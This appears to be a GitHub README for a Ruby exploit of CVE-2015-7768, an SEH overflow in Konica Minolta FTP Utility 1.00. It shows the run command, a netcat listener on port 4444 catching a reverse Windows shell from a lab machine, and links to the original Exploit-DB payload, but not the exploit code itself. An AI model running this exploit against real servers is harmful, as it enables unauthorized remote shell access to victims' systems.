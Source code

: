 # CVE-2015-7768 | Konica Minolta FTP Utility 1.00 - CWD Command SEH Overflow
Konica Minolata FTP Utility is an FTP server for Windows Applications.


# Usage

```
ruby cve-2015-7768_exploit.rb <IP ADDRESS>
```


## PoC
Listen for a reverse netcat connection on port 4444
```
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.109] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
 
C:\Program Files (x86)\KONICA MINOLTA\FTP Utility>
```


#Referances
- Original Payload: https://www.exploit-db.com/exploits/39215/ (in Python)
- Title: Konica Minolta FTP Utility 1.00 Post Auth CWD Command SEH Overflow.
- Software link: http://download.konicaminolta.hk/bt/driver/mfpu/ftpu/ftpu_10.zip
- Software: Konica Minolta FTP Utility v1.0
- Tested: Windows 7 SP1 64bits


